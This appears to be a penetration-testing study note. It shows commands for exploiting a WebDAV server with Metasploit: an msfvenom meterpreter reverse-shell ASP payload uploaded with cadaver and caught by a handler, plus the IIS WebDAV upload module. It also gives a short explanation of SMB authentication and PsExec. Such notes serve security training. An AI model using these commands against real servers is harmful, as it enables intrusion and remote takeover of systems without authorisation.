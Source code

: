 ## Exploiting WebDav with Metasploit

Generating payload with *msfvenom* and upload it with *cadaver*

```shell
nmap -sV -p 80 --script=http-enum <IP>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<MY-IP> LPORT=<MY-PORT> -f asp > shell.asp
cadaver http://<IP>/webdav
	put /root/shell.asp
service postgresql start
msfconsole
msf6: use multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST <MY-IP>
	set LPORT <MY-PORT>
	run
meterpreter
	sysinfo
	getuid
	delete shell.asp

msf6: search iis upload
	exploit(windows/iis/iis_webdav_upload_asp)
	set HttpUsername
	set HttpPassword
	set PATH /webdav/metasploit.asp
	run
meterpreter
	sysinfo
	getuid
```

# SMB With PsExec

Two levels of authentication:
- User Authentication (user provide username:password)
- Share Authentication (user provide password)

	1. **Client:**  Authentication Request
	2. **Server:** Encrypt string with user's hash
	3. **Client:** Encrypted string
	4. **Server:** Access Granted

## PsExec

- Allow execute processes on remote Windows systems using any user's credentials
- Authentication is performed via SMB
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt
- It's similar to RDP, but commands are sent via CMD
